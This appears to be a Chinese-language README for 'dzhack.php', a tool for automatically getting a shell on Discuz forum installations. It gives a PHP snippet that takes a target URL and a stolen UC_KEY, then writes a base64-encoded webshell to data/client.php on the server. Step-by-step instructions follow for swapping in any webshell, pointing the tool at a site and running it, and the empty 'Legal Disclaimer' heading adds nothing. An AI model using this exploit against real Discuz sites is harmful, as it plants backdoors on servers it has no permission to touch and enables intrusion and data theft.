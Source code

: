 #### Discuz 全自动 GetShell

打开 `dzhack.php`, 找到 

```
   $webshell = '<?php phpinfo(); ?>';
 
   list ($status, $data) = $dz->hack (
      'http://ubuntu64/dz/',
      'K856C548X2xaTcDdc248I1pc57gdq4vdL2SdH3ifGd4a0ec6UdcfX0B7m9Ubrcs4',
      'file_put_contents("data/client.php", base64_decode ("' . base64_encode ($webshell) . '"));'
   );
```

先把 `$webshell` 的内容改了，不需要考虑编码问题，

然后修改第一行为 discuz 的起始路径，第二行为你找到的 UC_KEY

然后执行 `php dzhack.php`,

会在 `data/client.php` 下面生成一个 webshell,

##### Legal Disclaimer

